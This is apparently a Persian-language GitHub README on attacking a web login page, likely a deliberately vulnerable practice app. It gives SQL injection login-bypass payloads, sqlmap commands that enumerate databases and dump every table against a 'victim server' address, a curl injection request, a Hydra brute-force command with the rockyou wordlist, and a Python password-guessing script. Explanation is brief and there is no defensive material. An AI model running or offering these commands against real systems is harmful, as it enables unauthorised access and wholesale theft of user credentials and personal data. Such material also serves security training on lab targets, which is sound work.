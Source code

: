 # 1. login with website

```
admin' --
123
```

```
' OR '1'='1' --
123
```

<p dir="rtl" align="justify">
  <ul dir="rtl">
  <li>' : اولین تک کوتیشن، این کار باعث بسته شدن رشته ورودی username می‌شود.</li>
	<li>-- : یک کامنت در SQL است که بقیه کوئری را نادیده می‌گیرد</li>
	<li>نتیجه این می‌شود که شرط WHERE همیشه درست خواهد بود و کوئری اولین کاربر از جدول را برمی‌گرداند (معمولاً کاربر مدیر).</li>
	<li>OR '1'='1' : یک شرط همیشه درست اضافه می‌کند (1 همیشه برابر با 1 است)</li>
  </ul>
</p>


```sql
SELECT * FROM auth_user  WHERE username='{username}' AND password='{password}'
```
```sql
SELECT * FROM vuln_app_user WHERE username='' OR '1'='1' -- ' AND password='...'
```

<p dir="rtl" align="justify">نتیجه نهایی:</p>

```sql
SELECT * FROM auth_user WHERE username='' OR '1'='1'
```

# 2. sqlmap

<p dir="rtl" align="justify">1. نصب sqlmap (اگر وجود ندارد):</p>

```
sudo apt update && sudo apt install sqlmap
```

<p dir="rtl" align="justify">2. اجرای حمله به صفحه لاگین:</p>

```
sqlmap -u "http://IP-سرور-قربانی/login/" --data="username=admin&password=123" --method=POST --risk=3 --level=5 --dbs
```

<p dir="rtl" align="justify">
  <ul dir="rtl">
    	<li>--data: پارامترهای POST ارسالی.</li>
	<li>--dbs: لیست پایگاه‌های داده را نمایش می‌دهد.</li>
  </ul>
</p>

<p dir="rtl" align="justify">هدف: پیدا کردن لیست دیتابیس‌های موجود (--dbs).</p>


<p dir="rtl" align="justify">برای حمله پیشرفته‌تر:</p>

```
sqlmap -u "http://IP-سرور-قربانی/login/" --data="username=admin&password=123" --method=POST --dump-all
```

<p dir="rtl" align="justify">هدف: استخراج تمام داده‌های تمام جداول از تمام دیتابیس‌ها (--dump-all).</p>

<p dir="rtl" align="justify">
	<ul dir="rtl">
	  <li>کاربرد:
		<ul dir="rtl">
		  <li>.نه تنها نام دیتابیس‌ها، بلکه تمامی جداول، رکوردها و اطلاعات حساس (مثل کاربران، پسوردها، اطلاعات شخصی) را دانلود می‌کند.</li>
		  <li>.یک حمله کامل و تهاجمی است که تمام محتوای دیتابیس را افشا می‌کند.</li>
		</ul>
	  </li>
	</ul>
</p>

# 3. curl

```
curl -X POST "http://IP-سرور-قربانی/login/" -d "username=' OR '1'='1' --&password=123"
```


# 4. Brute Force

<p dir="rtl" align="justify">1. با ابزارهای خودکار (مثل Hydra)</p>

```
hydra -l admin -P /usr/share/wordlists/rockyou.txt victim-ip http-post-form "/login:username=^USER^&password=^PASS^:F=login_failed.html"
```

<p dir="rtl" align="justify">
  <ul dir="rtl">
    <li>l admin-: نام کاربری هدف.</li>
	<li>P rockyou.txt-: لیست پسوردهای معروف.</li>
	<li>http-post-form: نوع حمله (POST).</li>
	<li>F=login_failed.html: شرط تشخیص شکست (اگر این صفحه نمایش داده شد، پسورد اشتباه است).</li>
  </ul>
</p>


<p dir="rtl" align="justify">2. با یک اسکریپت پایتون ساده (اگر می‌خواهید خودتان بنویسید)</p>

```python
import requests

target_url = "http://victim-ip/login/"
username = "admin"
passwords = ["123456", "password", "admin123", "123"]  # یا از یک فایل بخوانید

for password in passwords:
    data = {"username": username, "password": password}
    response = requests.post(target_url, data=data)
    if "login_success" in response.text:
        print(f"✅ پسورد پیدا شد: {password}")
        break
    else:
        print(f"❌ امتحان شد: {password}")
```
